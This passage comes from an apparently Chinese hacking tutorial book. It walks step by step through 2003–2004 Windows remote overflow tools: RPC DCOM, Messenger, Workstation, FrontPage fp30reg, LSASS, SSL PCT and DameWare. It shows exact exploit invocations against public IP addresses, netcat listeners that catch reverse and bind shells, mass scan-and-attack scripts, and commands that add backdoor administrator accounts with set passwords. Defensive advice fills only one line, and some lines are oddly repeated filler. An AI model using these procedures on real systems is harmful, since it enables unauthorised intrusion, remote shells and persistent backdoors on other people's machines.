有时溢出后的提示仅为“Done.”，当然，溢出到底有没有成功仅凭提示信息并不能肯定。按照 rpc.exe 的使用说明，如果溢出成功的话，会自动在对方的系统中添加一个等效于系统管理员权限的后门账号“xx”，密码为“!a1_9nH!”。接下来我们就测试是否可以使用该账号进行 IPC$ 连接。

在连接前还要做一件事，就是系统在溢出前已经与对方建立了一个空连接，因此，必须先断开这个连接，否则就会出现冲突，而无法连接上，见图 9。


图 9

```bash
G:\hacker\winrpcex>net use * /delete
```

使用 xx 账号与对方进行 IPC$ 连接，见图 10。


图 10

```bash
G:\hacker\winrpcex>net use \\144.*.*.48 "la!,9nH" /user:"xx"
```

命令成功完成。

到此，我想我已经没有必要再往下做了，因为我在对方的系统中已经拥有了一个等效于系统管理员权限的账号，如果你愿意，你可以使用 NTLM.EXE 或 opentelnet 来打开对方的 telnet 服务等，或者是利用 IPC$ 连接上传开 3389 服务的工具，然后再使用终端连接程序连接对方等等。

## 3.10 media.exe

```text
media.exe media.exe media.exe media.exe media.exe media.exe media.exe media.exe media.exe media.exe
```

2003 年六月下旬，微软又公布了一个 Windows 系统中新发现的严重的安全漏洞，该漏洞主要发生在 Windows 提供的 media services 中。利用这个远程溢出漏洞，入侵者可以轻易地以 GUEST 权限进入目标系统，而相应的远程攻击程序也早在六月二十六日就在国外的站点上公布了，国内也出现了两款针对该漏洞的攻击程序。

Windows 系统如果提供了 media services，会开放四个端口，分别为 1755、7007、6666、7778，因此我们可以使用端口扫描程序来扫描这四个端口。当然还有另一个方法，因为 media services 的远程溢出是发生在 nsiislog.dll 文件中的，而这个文件默认通常是被安装在 inetpub/scripts/ 目录下的，所以我们可以利用扫描程序来扫描该文件，唯一要做的就是在扫描程序的 CGI 漏洞列表中添加这个扫描请求就可以了。

让我们来看一下 media.exe 的使用。

```bash
G:\hacker\win2000>media
```


见图 1，程序详细地指出了使用说明：media target [-p target_port] [-r /renamed_scripts/renamed_nsiislog.dll]。另外在程序的说明中也提到了，如果溢出成功的话，会绑定一个 cmd shell 在对方的 34816 端口上。

```bash
G:\hacker\win2000>media 61.*.*.54 -p 80 -r /scripts/nsiislog.dll

Target exploited.
```


见图 2，提示我们目标主机已经溢出了。接下来就看我们可不可以连接成功对方绑定 CMD SHELL 的 34816 端口了。

```bash
G:\hacker\win2000>nc -vv 61.*.*.102 34816

c102.h061013032.is.net.tw [61.*.*.102] 34816 (?) open
```


连接成功了，见图 3，已经成功地得到了一个 CMD SHELL。下边让我们来验证一下我们得到的权限有多大。

```bash
C:\WINNT\system32>net user sagi 135790 /add
```

见图 4，添加账号失败了，这说明我们只是得到了 GUEST 权限。此时我们受到了许多的限制，对于入侵者来说，在此基础上成功地提升权限才是最主要的，例如使用一些本地溢出程序，更换系统的一些以 SYSTEM 权限执行的服务等等，不过，那已经不是本文所要介绍的了。


## 3.11 Winrpcdcom.exe

2003 年 7 月 14 日，微软公布了 MS Windows RPC 接口远程任意代码可执行漏洞。Remote Procedure Call（RPC）调用是 Windows 使用的一个协议，提供进程间的交互通信，允许程序在远程机器上运行任意程序。RPC 在处理通过 TCP/IP 进行信息交换的过程中存在漏洞，问题在于不正确处理畸形消息所造成。此漏洞主要影响使用 RPC 的 DCOM 接口，监听 RPC 使用的接口，这个接口处理 DCOM 对象激活请求。攻击者如果成功利用此漏洞，可以以系统用户权限执行任意代码。要利用这个漏洞，可发送畸形请求给远程服务器监听的特定 RPC 端口，如 135、139、445 等任何配置了 RPC 端口的机器。

好了，关于漏洞的简单描述就到这儿，7 月 24 日 FLASHSKY 在安全焦点公布了测试代码，之后的几天时间里，针对 RPC DCOM 漏洞的溢出程序就出现了好几个版本，有直接溢出后得到 CMD SHELL 的，也有反向连接的，不过总的来说，这些版本大致都差不多。限于篇幅，我不能将所有的溢出工具都介绍出来，在这儿就先向各位介绍一下 Winrpcdcom.exe 的使用。


图 1 是使用 x-scan 2.3 扫描到的存在RPCDCOM 漏洞的主机，扫描 RPCDCOM 的插件我们可以在网上找到，释放到 x-scan 2.3 下的 plugin 目录就可以了。

```text
D:\hacker\win2000\rpcdcom>

winrpcdcom
```

图 2

图 2 中，Target ID 为版本号，共有 38 个，Target IP 为目标主机的 IP，使用非常简单方便，不需要在本地进行监听，而且该程序可以在 Windows 9x/ME/NT/2000/XP/2003 下使用，将源程序放在 UNIX/LINUX 下进行编译，就可以在 UNIX/LINUX 下使用了。

图 3

见图 3，溢出成功了，不需要任何的连接，直接得到了对方的 CMD SHELL。实际上是程序溢出后自动在对方的 4444 端口上绑定 CMD SHELL，然后再自动连接。让我们来看一下我们的权限。

图 4

见图 4，我们得到的是 Administrator 权限，成功地添加了一个帐号并加进了对方的管理员组中。

该溢出程序对 XP 的溢出成功率还是很高的，虽然我在修改这个程序的时候加入了 SERVER 2003 的两个偏移地址，不过，似乎溢出效果并不理想，但可以造成远程 2003 系统的重启。

## 3.12 w2krpcdcom.exe

在选择版本的时候，虽然我们没有太好的方法来判断目标主机的操作系统，不过，仍然有一些别的辅助方法，例如通过对方开放的服务及开放的端口等。比如，对方使用的是 IIS 5，那么我们可以确认对方使用的为 2000 系统；如果对方使用的是 IIS 5.1 或 IIS 6，那么对方使用的应该是 XP 系统（SERVER 2003 上使用的也是 IIS 6，不过，目前 INTERNET 上使用 SERVER 2003 的还很少）。另外，如果我们扫描端口时，发现对方开放了 5000 端口，那么也极有可能为 XP 系统。如果实在不好判断的话，我们也可以使用通用的地址。

关于 Windows RPCDCOM 的远程溢出程序，我们在前边已经介绍了 winrpcdcom.exe，但是那个程序使用的是正向连接方式来获得对方的 cmd shell 的。倘若对方的系统中安装了防火墙并过滤了高端端口的话，那么利用那个程序我们很难成功地连接对方绑定 shell 的 4444 端口，因此在这种情况下，使用可以反向连接的溢出程序就成了最好的选择。

下边就让我们来看一下 w2krpcdcom.exe 的使用格式，见图 1。

```text
E:\sagi>nc -vv -l -p 100
listening on [any] 100 ...
```

下边让我们来看一下溢出测试。

```text
E:\sagi\win2000>w2krpcdcom 192.168.0.155 192.168.0.1 100 9
```

“192.168.0.155”为我们要溢出的主机的 IP 地址，“192.168.0.1”为我们自己使用的主机的 IP 地址，“100”为我们在本机上监听的端口，“9”为对方的系统类型，在这儿也就是简体中文 Win2000+SP4，见图 2。程序执行后没有什么提示，在这儿我们不能直接判断出是否溢出成功。

让我们来看看 nc 监听的情况，如果溢出成功的话，我们在监听的 100 端口上就会得到对方的 cmd shell，见图 3。

溢出后，我们得到的权限当然也是 Administrator 权限，可以成功地添加帐号或开启对方的系统服务等，这和使用 winrpcdcom.exe 溢出是一样的，见图 4。

因为使用了反向连接技术，我们先使用 nc 在本地监听一个端口，见图 2，我使用了 100 端口，你也可以使用别的。

图 3

图 4

## 3.13 rpcdcomloname

```text
rpcdcomloname.exe rpcdcomloname.exe rpcdcomloname.exe rpcdcomloname.exe rpcdcomloname.exe rpcdcomloname.exe
```

rpcdcom 组件中的长文件名远程溢出程序最早是于 9 月 21 日公布在安全焦点的网站上的。请大家区分，这个漏洞与前面讲过的那个 RPCDCOM 的远程溢出漏洞是不一样的。该溢出程序主要针对中文 WIN2000 SP3/SP4+MS03-026 的补丁，尤其是中文 WIN2000 SP4+MS03-026，成功率还是很高的。这个漏洞也是使用 135 端口建立的连接。下边就让我们来看一下这个溢出程序的使用。

```text
rpcdcomloname targetIP
for cn_w2k server sp3/sp4+ms03-26
Connect failed Error:10049
```

图 1

见图 1，rpcdcomloname.exe 的使用非常简单，后边直接跟目标系统的 IP 地址就可以了。

```text
G:\hacker\win2000\winrpcdcom>
rpcdcomloname

RPC DCOM overflow Vulnerability
discovered by NSFOCUS
Code by FlashSky, FlashSky xfocus.org
Welcome to our Site: http://www.xfocus.org
Welcome to our Site: http://www.venustech.com.cn
The exe file compiled by sagi@hackerxfiles.net
```

```text
G:\hacker\win2000\winrpcdcom>
rpcdcomloname 61.*.*.*

RPC DCOM overflow Vulnerability
discovered by NSFOCUS
Code by FlashSky, FlashSky_xfocus_org
Welcome to our Site: http://www.xfocus.org
Welcome to our Site: http://www.venustech.com.cn
The exe file compiled by sagi@hackerxfiles.net
```

```text
THCRealbad v0.04 \\ target rpcdcomloname 61
RPC DCOM buffer overflow Vulnerability discovered by NSFOCUS
Code by FlashSky, FlashSky_xfocus_org
Welcome to our Site: http://www.xfocus.org
Welcome to our Site: http://www.venustech.com.cn
The exe file compiled by sagi@hackerxfiles.net

G:\hacker\win2000\winrpcdcom>net use \\61.**.**.**\ipc$ "557" /user:"SST"
命令成功完成。

G:\hacker\win2000\winrpcdcom>
```

程序发送溢出数据后，没有任何的提示。当然，到底有没有成功溢出，我们单从这个不能直接判断出来。如果真的溢出成功的话，会在对方的系统上添加一个后门账号，帐号名为“SST”，帐号口令为“557”。

见图 2，我们溢出成功了，rpcdcomloname.exe 已经成功地添加了一个后门账号“SST”，而且我们使用这个后门账号已经与对方的系统建立了一个正常的 ipc$ 管道连接。如果我们没有与对方建立成功 ipc$ 管道连接，是否说明我们没有溢出成功呢？也不一定。如果对方的系统中防火墙设置禁止了 ipc$ 管道连接的话，那么就算我们已经溢出成功了，也是不能成功连接对方的 ipc$ 的。

```text
G:\hacker\win2000\winrpcdcom>net use \\61.*.*.*\ipc$ "557" /user:"SST"
命令成功完成。
```

## 3.14 realex.exe

早在 2003 年的 3 月底，Real Server 就被公布了一个远程溢出漏洞。该漏洞影响 8.0.1 及以前的版本，主要是因为服务器没有对通过 RTSP 方法提交的 URL 长度做充分检查，在 8.0.2 版本中已经修复了该漏洞。但是令人遗憾的是，8 月下旬，Real Server 再次被公布了一个严重的远程溢出漏洞，只不过这一次问题出在了“View Source”插件中。当提交超长的包含部分字符串的 URL 字符串请求时，就有可能引发溢出。该漏洞具体影响的版本有：

- Real Networks Helix Universal Server 8.0.1
- Real Networks Helix Universal Server 9.0.1
- Real Networks Helix Universal Server
- Real Networks Real Server 7.0
- Real Networks Real Server 7.0.1
- Real Networks Real Server 7.0.2
- Real Networks Real Server 8.0 Beta
- Real Networks Real Server 8.0.2
- Real Networks Real Server 8.0.1
- Real Networks Real Server 8.0
- Real Networks Real Server G2 1.0

下边让我们来看一下溢出程序 realex.exe 的具体使用，见图 1。

```text
D:\hacker\unixlinux>realex

THCREALbad v0.4 - Wind0wZ & Linux
remote root sploit for Realservers 8+9

by Johnny Cyberpunk

(jcyberpunk@thehackerschoice.com)

The exe file compiled by
sagi@Hackerxfiles.net

Usage: <Host> <OS>
0 = WindowZ
1 = Linux
2 = OS Test Mode
```

```text
ok... now try to connect to port 31337
via netcat !
```

图 1

图 2

其实早在 3 月底公布了漏洞后，就已经有了一个相应的溢出程序，只是因为提供 real 服务的主机的数量不多，再加上程序本身溢出的成功率不是多高，所以才没有引起太大的注意。realex.exe 实际上是原来那个程序的升级版本，并且新加入了针对 Linux 的远程溢出。

图 3

见图 2，“0”表示对方的系统为 Windows 系统，其实 Linux 系统中提供 Real Server 的还是非常少的。

real 服务使用的是 554 端口，我们可以根据这一点来扫描目标主机。

根据溢出程序的提示，我们使用 nc 来连接对方的 31337 端口。

```text
D:\hacker\unixlinux>realex 61.155.11.134 0

THCREALbad v0.4 - WindowZ & Linux
remote root sploit for Realservers 8+9
by Johnny Cyberpunk
(jcyberpunk@thehackerschoice.com)
The exe file compiled by
sagi@Hackerxfiles.net

exploit send .... sleeping a while ....
```

```text
D:\hacker\unixlinux>nc -vv 61.155.11.134 31337

Warning: forward host lookup failed for
AUTORECORD: h_errno 11001: HOST_NOT_FOUND

AUTORECORD [61.155.11.134] 31337 (?) open

Microsoft Windows 2000 [Version 5.00.2195]
(c) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```

## 3.15 msghack.exe

messenger（信使服务）是 Windows 系统中默认开启的一个服务，2003 年 10 月，messenger（信使服务）被公布存在严重的远程溢出漏洞，该漏洞编号为 MS03-043，这是继 RPC DCOM 系列远程溢出漏洞之后被公布的又一最高级别的安全漏洞。

随后，针对该漏洞的远程溢出攻击程序就在网上公布了好几个版本，我们将主要介绍一下 SUNX 编写的一个溢出程序 msghack.exe 的使用。

关于该漏洞的安全扫描程序有许多，先让我们来看看其中的一个扫描程序 messengerscan.exe 的使用。

messengerscan.exe 是一个基于 DOS 界面的扫描程序。

```text
scanmsgr target=<range>
Scans systems on 135/udp testing for which are vulnerable to MS03-043
More help at: http://www.iss.net/support/product_utilities/ms03-043
Example: scanmsgr target=192.168.1.1-192.168.1.255
```

见图 1，messengerscan.exe 的使用格式很简单，不像有的 messenger 扫描程序，一次只能检测一个 C 类地址。

```text
G:\hacker\win2000\messenger>
messengerscan

Copyright 2003 Internet Security Systems

Usage:
```

```text
G:\hacker\win2000\messenger>
messengerscan target=218.*.*.1-218.*.*.254
```

```text
Example: scanmsg target=192.168.1.1-192.168.1.255

218.12.*.*    UNPATCHED (3005)
218.12.*.*    UNPATCHED (3005)
218.12.*.*    UNPATCHED (3006)
218.12.*.*    UNPATCHED (1027)
218.12.*.*    UNPATCHED (1026)
218.12.*.*    UNPATCHED (3007)
218.12.*.*    UNPATCHED (1027)

Patched:   2
Unpatched: 7
Unknown:   0
```

见图 2，扫描到了 7 个未打补丁程序的系统，也就是可能存在 messenger 远程溢出漏洞的主机。下边让我们看一下 msghack 的使用。

```text
G:\hacker\win2000\messenger>msghack

MsgHack msgsvc!Msgtxtprint!LocalFree
heapflow, writen by sunx

http://www.sunx.org
for test only, dont used to hack,

usage: MsgHack <-h Host> <-v OsVer>
<-l OsLanguage> <-s OsSP> <-r connectbackto host> <-p connectbackto port>

OS Version
winnt      1
win2k      2
winxp      3

OS Language:
english      1
chinese      2
japanese     3

Exp: MsgHack -h 192.168.0.1 -v 3
-l 1 -s 1 -r 192.168.0.5 -p 99
```

msghack.exe 的使用格式见图 3 所示，从使用格式中我们可以看出这是一个反向连接的溢出程序，需要我们在本地监听。我们再打开一个 cmd shell，使用 nc 进行监听。

```text
G:\hacker\win2000>nc -vv -l -p 813
listening on [any] 813 ...
```

见图 4，我们在本机上监听 813 端口。接下来看一下 msghack.exe 的溢出情况。

```text
G:\hacker\win2000\messenger>msghack
-h 218.12.*.* -v 3 -l 2 -s 1 -r 61.241.63.20 -p 813

MsgHack msgsvc!Msgtxtprint!LocalFree
heapflow, writen by sunx
http://www.sunx.org
```

溢出成功了，得到了一个 cmd shell，见图 3。最后让我们再来看一下我们的权限有多大。

```text
C:\WINNT\system32>net user sagi 135790 /add & net localgroup administrators sagi /add

命令成功完成。

命令成功完成。
```

我们成功地添加了一个后门帐号并加到了 administrators 组中，见图 4，此时我们已经拥有了 Administrator 权限。

## 远程溢出 刺穿你的防线

# 黑客兵器谱 II

```text
for test only, don't use to hack ;p

Try...1.    Info: send 3524 bytes msg
to 218.12.***.***, recved 84 bytes

Try...1.    Info: send 3524 bytes msg
to 218.12.***.***, recved -1 bytes
```

见图5，msghack 会不停地尝试向目标系统发送溢出数据。不过，如果超过了 200 还没有溢出成功的话，那么还是放弃吧，换台主机再试试。

让我们再来看看 nc 在 813 端口监听的情况，如果溢出成功的话，我们会直接得到对方的一个 cmd shell。

```text
G:\backet\win2000>nc -vv -l -p 813
listening on [any] 813
218.12.***.* inverse host lookup failed:
h_errno 11004: NO_DATA
connect to [61.241.63.20] from
(UNKNOWN) [218.12.***.*] 1255

www.sunx.org
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

见图6，溢出成功了，得到了对方的 cmd shell，最后让我们来看一下我们的权限是什么。

见图7，我们成功地添加了一个具有管理员权限的后门帐号 sagi，这说明我们溢出后的权限为 administrator。

最后对于该溢出程序要说明的是，虽然程序的使用格式中，似乎是可以针对英文版、中文版及日文版的 WinNT/2000/XP 系统，但实际上 msghack.exe 只能溢出中文 WinXP+SP1，或许以后的版本中会支持更多的系统版本。

## 3.16 ms03049.exe

继 Windows 系统中的 rpcdcom 以及 messenger 被发现存在严重的安全漏洞后，2003 年下半年 Windows 系统中再一次被发现了一个严重的安全漏洞，只是这一次是在 workstation 中的，Windows 系统的安全性再一次受到了巨大的挑战。

就在该漏洞被公布后没多久，相应的远程攻击程序就在网上出现了许多版本，下边就让我们来看一下其中溢出成功率比较不错的一个。

```text
D:\hacker\win2000\winworkstation\
ms03049>ms03049
```

图1

见图1，使用格式主要分为两种，对于使用 Win2000 的用户来讲，要想对目标系统进行测试的话，格式为“ms03049 IP”，而对于使用 WinXP 系统的用户来讲，“ms03049 IP 2k”为测试远程 Win2000 系统，“ms03049 IP”为测试远程 WinXP 系统。

如何寻找存在这个安全漏洞的主机呢？除了使用一些专用的漏洞扫描程序外，我们还可以简单地通过扫描 139 及 445 端口来判断，而这两个端口对于 Win2000 以及 WinXP 来讲，都是默认开放的。另外还有一个要注意的问题是，该溢出程序只针对使用 FAT32 文件格式的系统有效，而对于使用 NTFS 文件格式的系统无效。

```text
D:\hacker\win2000\winworkstation\
ms03049>ms03049 192.168.0.103
can't find NetAddAlternateComputer
Name <Now try to attack 2k>(见图2)。
```

图2

下边我们使用 nc 来尝试连接对方溢出后绑定 CMD SHELL 的 1234 端口。

图3

```text
D:\hacker\win2000>nc -vv 192.168.0.103 1234
LCK.mshome.net:[192.168.0.103] 1234 (?) open
Microsoft Windows 2000 [Version 5.00 2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```

溢出成功了，见图3，得到了对方的一个 CMD SHELL，下边让我们来试一下，看我们得到的权限有多大。我们试着在对方的系统中添加一个帐号。

```text
C:\WINNT\system32>net user sagi 135790 /add

net user sagi 135790 /add
命令成功完成。

C:\WINNT\system32>net localgroup administrators sagi /add

net localgroup administrators sagi /add
命令成功完成。
```

图4

我们成功地添加了一个帐号，见图4，这说明通过该漏洞远程溢出后得到的权限为 administrator 权限。

我们除了下载并安装微软提供的相应的补丁程序外，还可以简单地使用防火墙来拦截远程系统对于 139 以及 445 端口的所有请求，这样就可以达到防御该漏洞攻击的目的了。

## 3.17 winfp30reg2.exe

提起 FrontPage 的 fp30reg.dll 远程溢出，早在 2001 年的时候，绿盟就曾经在 fp30reg.dll 中发现了一个远程溢出漏洞，不过下边讲的这个 winfp30reg2.exe 针对的可不是那个老洞，而是 2003 年才公布的一个远程溢出漏洞，其漏洞编号为 ms03-051。漏洞编号虽然很新，不过相信这个漏洞也是以前发现的了，因为这个漏洞只影响 WINDOWS 2000 的 SP2 及 SP3，而 WINDOWS 2000 的 SP4 及 WINDOWS NT/XP/2003 却不存在这个远程溢出漏洞。

最初公布的测试程序 fp30reg.exe 使用的是正向连接技术，就像 RPCDCOM 的溢出程序类似，溢出成功后会在对方的 9999 端口 BIND CMD SHELL，然后程序会自动地连接。考虑到这种正向连接的方法很难躲过对方防火墙的拦截，所以我和一位朋友 horse b 使用反向连接的方法改写了这个程序，改写后的 fp30reg2.exe 我在中文 WIN2000+SP3 下测试通过，得到的 CMD SHELL 非常稳定。

下边先让我们来看一下这个溢出程序的使用。

```text
G:\hacker\win2000\winfp30reg>
winfp30reg2

-={ Frontpage fp30reg.dll Overflow
Exploit (MS03-051) ver 0.2 }=-
by Adik < netmaniac [at] hotmail.KG >
http://netninja.to.kg
```

## 刺穿你的防线

```text
EXE文件修改及编译：sag；
SHELLCODE使用了红客联盟的lion今年10月22发布的一个反向连接的SHELL CODE

Usage: winfp30reg2 [TargetIP <port> <listenip>]

eg: nc -vv -l -p 53
fp30reg.exe 192.168.0.1 80 192.168.0.20
```

```text
G:\hacker\win2000\winfp30reg>winfp30reg2 61.***.***.230 80 61.241.63.8

--< Frontpage fp30reg.dll Overflow Exploit (MS03-051) ver 0.2 >--

by Adik < netmaniac [at] hotmail.KG >
http://netninja.to.kg
EXE文件修改及编译：sag；
SHELLCODE使用了红客联盟的lion今年10月22发布的一个反向连接的SHELL CODE

[*] Target: 61.***.***.230  Port: 80

[*] Socket initialized.
[*] Checking for presence of fp30reg.dll... Found!
[*] Packet injected!
[*] Sleeping...
[*] Connecting to host: 61.241.63.8
[x] 如果成功的话，就应该在本地的53端口监听到对方系统的cmd shell了！
```

见图1，程序的使用很简单，port 端口默认为 80，这就要求对方必须提供了 IIS 服务，另外安装了 FrontPage 扩展的系统中都会存在 fp30reg.dll 这个文件，其位置是在 /_vti_bin/_vti_aut/ 虚拟目录下的。

```text
G:\hacker\win2000>nc -vv -l -p 53
listening on [any] 53 ...
```

我们先在本机使用 NC 监听 53 端口，这个监听端口因为我在程序中固定了，所以只能使用 53 端口，见图2。

对目标主机进行远程溢出测试，见图3，使用格式为 **winfp30reg2 目标IP地址 80 监听的IP地址**，“80”为对方的 web 服务所使用的端口，反向连接的端口已经在程序中固定为了 53 端口，这个是不能任意改动的，也就是说只能在本机上监听 53 端口。

接下来，我们就打开监听的窗口，如果成功的话，我们就会得到对方的 CMD SHELL 了，见图4。

下边让我们再来看一下我们的权限有多大。

```text
C:\WINNT\system32>net user sagi 135790 /add

net user sagi 135790 /add

系统发生 5 错误。

拒绝访问。
```

见图5，这说明 fp30reg.dll 溢出后的权限只有 GUEST，虽然如此，也已经是很严重的了，倘若再结合一些本地溢出程序，甚至是木马程序的话，入侵者还是很有可能轻松地得到系统的管理员权限的。

## 3.18 ms04011lsass2.exe

2004 年 4 月，eEye 公布了一个新的漏洞，eEye 在 Windows LSA（Local Security Authority）服务（LSASRV.DLL）中发现了一个远程缓冲区溢出漏洞，利用该漏洞攻击者可以以系统级别权限在远程 Windows 2000 及 Windows XP 系统上执行任意代码。该漏洞是通过系统默认开放的 TCP 139 及 445 端口来与 LSARPC 命名管道建立连接的。这个漏洞也是 4 月份微软公布的 MS04-011 漏洞中的一个，关于该漏洞的详细描述，大家可以到网上去查一查相关资料。

针对该漏洞的远程攻击程序及相应的漏洞扫描工具在 4 月下旬也已经公布在了网上，让我们来看看该漏洞的具体使用。

扫描工具 DSScan 打开后的界面见图1。

在“Start IP”栏中输入要扫描的开始 IP 地址，在“End IP”栏中输入结束 IP 地址，点击右边的“->”图标，这样，要扫描的 IP 段就会出现在右边的小窗口中了。扫描结束后，可以再点击一下这个 IP 段，再点击最右边的“Clear Selected”按钮，这样，窗口中的 IP 地址就会被清除了，我们可以再重新选择添加要扫描的 IP 段。

选择好扫描的 IP 地址段后，点击一下下方的蓝色三角按钮，程序就开始扫描了。扫描的结果会显示在下方的窗口中。我们要关注的是扫描结果中的“Status”，状态为“VULNERABLE”的，就是极有可能存在漏洞的，而状态为“Not vulnerable”的就是不存在该漏洞的，见图2。

图2

如何判断扫描到的远程主机使用的是什么操作系统呢？在这儿我们使用 THC.org 发布的一个小程序。这个程序的使用格式见图3。

图3

getos 会通过 139 端口与远程主机建立连接，然后通过对方的 SMB，来判断对方使用的操作系统类型，“Windows 5.0”这个应该是 Windows 2000 系统，如果是“Windows 5.1”的话，就应该是 Windows XP 系统了，见图4。

图4

让我们来看看远程溢出程序 ms04011lsass2。

## 刺穿你的防线

图5

从图5中我们可以看出，这个溢出程序支持 Win2000、WinXP+SP1 中文版，那个 WinXP+SP0 中文版是我后来又添加上去的，不过并没有怎么做测试。程序使用了反向连接技术，使用格式为“ms04011lsass2 操作系统类型 目标IP 监听端口 自己的IP”，程序默认使用了 445 端口与目标主机建立连接。

我们先在本地机器上使用 nc 进行监听，见图6。

图6

对目标主机进行溢出攻击，见图7。

图7

图8

程序停在了这里，让我们来看看 nc 监听的结果，见图8。

溢出成功了，在本机的 1234 端口上成功地得到了对方的一个 cmd shell。

让我们试着添加一个帐号，来验证一下我们此时的权限有多大。见图9，我们成功地在对方的系统中添加了一个帐号，说明我们得到的这个 cmd shell，为系统管理员权限。

在使用 ms04011lsass2.exe 测试的过程中，我发现该程序对于 Windows 2000 系统的溢出成功率很高，但是对于 Windows XP 系统的溢出却并不理想。这可能是因为 ms04011lsass2.exe 要先与远程主机建立一个 ipc$ 空连接，对于 Win2000 系统来说，ipc 连接默认使用的是 139 端口，而对于 Windows XP 系统来说却莫名其妙地抛弃使用 139 端口，而改用了 445 端口，这也使得在连接远程 XP 系统时，连接的成功率比 2000 低吧。

图9

## 3.19 winsslV02AutoHacker

SSL，Security Socket Layer（安全套接层协议）是网景公司提出的基于 WEB 应用的安全协议，该协议广泛地被应用于 Unix/Linux 以及 Windows NT/2000/XP/2003 系统上。几年前，基于 Unix/Linux 系统上的 SSL 曾被公布过远程溢出漏洞，但是基于 Windows 系统平台的 SSL 一直以来并没有发现什么大的问题。不过，很遗憾，这种状况现在已经不复存在了。

ISS X-Force 在微软的 Windows 系统使用的安全套接层协议（SSL）库中发现了一个远程缓冲溢出漏洞，当处理安装 PCT 1.0 包时可以导致系统的一个远程溢出。关于该漏洞的详细技术描述，大家可以到网上去查一下相关的资料，这里就不细讲了。该漏洞也为微软公布的 MS04-011 漏洞中的一个，主要影响 Windows NT 4 至 NT 4 SP6a、Windows 2000 SP0--4 及 Windows XP SP0--1 系统，而对于 Windows 2003，因为 PCT 1.0 协议默认是无效的，所以该漏洞并不影响 Windows 2003。

4 月下旬，thc.org 公布了针对该漏洞的远程溢出程序，其后几天在网上又出现了基于该漏洞的自动扫描攻击工具。下边就让我们详细地来看一下这个自动扫描攻击工具的使用。

因为这个工具中也使用了 thc.org 公布的针对该漏洞的可反向连接的溢出程序，所以我们先使用 nc 在本地监听一个端口，见图1，当然了，你过一会儿再进行监听也是可以的。

图1

我们先运行 iis5.0.bat，这个程序的功能主要是扫描及调用 thc 的溢出程序，以实现自动扫描及自动攻击功能的。运行后如图2所示。

图2

回车后，程序会给出三个选择：

```text
1> scan IIS 5.0 SSL < port 443 >
2> Hack IIS 5.0 SSL
3> Exit
```

- 第一个是扫描选项
- 第二个为攻击选项
- 第三个为退出

见图3，我们先选择“1”，进行扫描。

图3

接着程序会提示我们输入“Start IP”开始 IP 地址，然后是输入“Ending IP”结束 IP 地址，回车后程序就会自动地进行扫描 443 端口了，见图4。

图4

所有的 IP 地址扫描完成后会提示我们，见图5，按任意键继续。

图5

程序又回到主界面上，回车后重新出现选择菜单，这次我们选择“2”，也就是进行自动攻击，见图6。

图6

程序会提示我们输入“name of scan txt:”扫描的文件名，我们输入“scan.txt”，这也是程序默认使用的保存扫描结果的文件。接着会要求我们输入“Ip to connect back:”也就是反向连接的 IP 地址，以及“Port to connect back:”也就是反向连接的端口，见图7。就算刚才没有使用 nc 进行监听，现在都还来得及。

图7

回车后，程序就会自动地调用远程溢出程序进行攻击测试了，泡杯茶慢慢地等吧，当 cmd 窗口上出现了 [*] waiting for shell 并停止不动的时候，基本上就是溢出已经成功了，见图8。

图8

图9

我们打开使用 nc 进行监听的 cmd 窗口看看，成功的话，就会得到对方的一个 cmd shell 了，见图9。

按照漏洞描述中的信息，成功地利用该漏洞，我们溢出后应该得到的是对方的系统权限，但是有时我们溢出后得到的这个 shell 却没有系统权限，此时向对方的系统中添加账号的时候，对方系统会提示：

```text
net user

系统发生 1722 错误。

RPC 服务器不可用。
```

见图10，甚至是执行 **net user** 这样的命令也会提示错误，而有时溢出后得到的 shell 却又有系统权限，见图11。具体的原因我也不是太清楚，也许是目标主机上 RPC 服务的一些问题吧，当然这也可能是溢出程序还不完善所造成的，或许以后还会出现针对该漏洞的更好的溢出程序吧。


当我们从对方的系统中退出来的时候，可以重新再使用 nc 进行监听。回到 iis5.0 执行的那个窗口，我们可以按“Ctrl+C”，程序就会继续询问我们是否中止程序的执行，回答“Y”，程序就会退出出来；回答“N”的话，iis5.0 就会继续对后边还没有进行测试的主机进行溢出。

## 3.20 dameware.exe

dameware 是一款同 VNC 一样非常著名的远程控制软件，因为其强大的功能，许多管理员都用它来实现对服务器或局域网中工作站的远程管理，当然许多入侵者也喜欢使用它来远程控制自己的“肉鸡”。

2003 年底，dameware 被公布了存在的一个非常严重的远程溢出漏洞，该漏洞影响的版本主要有 dameware 3.72 及以前的 3.7* 版本。针对该漏洞的溢出程序我们在网上也可以找到好几个，下边就让我们来看一下其中溢出成功率比较不错的一个 dameware.exe 的使用。

```text
G:\hacker\win2000\dameware>dameware

DameWare Remote Control Server V3.
XX Stack Overflow exploit

syntax: dameware <host> <your_ip> <your_port>
```


图1

从图1中我们可以看出，这个溢出程序使用的为反向连接技术。dameware.exe 与目标系统建立连接使用的为 6129 端口，所以我们也可以通过这个端口来寻找被安装了 dameware 服务的主机。另外，这个程序会自动地判断目标主机采用的是 WIN2000 系统还是 WINXP 系统，对于这一点，我认为这个溢出程序还是很不错的。

```text
G:\hacker\win2000>nc -vv -l -p 813
listening on [any] 813
```

我们先在本机上使用 NC 进行监听，端口我使用了 813，见图2。


图2

我们对一台开放了 6129 端口的主机进行溢出测试。

```text
G:\hacker\win2000\dameware>dameware 61.*.*.1 61.241.62.80 813

DameWare Remote Control Server v3.7X Stack Overflow exploit

[+] Connecting to 61.*.*.1
Done
[+] Gathering information
Done
[i] Operating system: Win2000
[+] Service Pack: 4
[+] Setting shellcode for this version
Done
[i] Shell should be arrived at 61.241.62.80:813
Done
```


图3

见图3，dameware.exe 自动检测到对方的主机为 WIN2000+SP4，发送溢出数据成功。当然溢出成不成功还要看我们是否可以在监听的 813 端口成功地得到对方的 CMD SHELL。


图4

图4是溢出成功的截图，在监听的 813 端口成功地得到了对方的 CMD SHELL，而且这个 CMD SHELL 的权限为 administrator，我们完全可以添加属于自己的后门账号，或是安置更加隐蔽的后门程序。

## 3.21 servu345.exe

